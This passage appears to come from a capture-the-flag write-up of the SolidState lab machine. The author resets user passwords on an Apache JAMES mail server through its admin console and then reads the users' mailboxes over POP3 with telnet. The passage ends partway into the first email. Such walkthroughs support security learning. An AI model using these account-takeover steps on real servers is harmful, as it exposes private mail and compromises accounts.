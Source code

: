 ```text
setpassword mailadmin password
Password for mailadmin reset
```

Now that we reset the password for the mailadmin account, let’s access his email using telnet.

```text
root@kali:~# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mailadmin
+OK
PASS password
+OK Welcome mailadmin
LIST
+OK 0 0
.
```

He does not have any mail. Next, I’m going to reset the passwords of all the other accounts.

```text
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
```

James, Thomas and John didn’t have any emails too. Mindy on the other hand had two emails stored in her account.

```text
root@kali:~# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS password
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: WelcomeDear Mindy,
```